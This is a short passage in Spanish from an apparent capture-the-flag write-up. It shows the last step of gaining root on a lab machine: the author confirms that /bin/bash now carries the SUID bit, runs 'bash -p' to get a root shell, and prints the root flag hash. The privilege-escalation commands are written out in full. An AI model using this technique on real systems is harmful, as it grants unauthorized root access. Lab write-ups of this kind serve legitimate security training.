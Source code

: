 Lo guardamos y si esperamos un poco, lo comprobaremos.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31 10:41 /bin/bash
```

Vemos que funciono, por lo que haremos lo siguiente para ser `root`.

```shell
bash -p
```

Y con esto ya seremos `root`, por lo que leeremos la flag.

> root.txt

```
97e2171b74984a382b62fcb39ab893c8
```

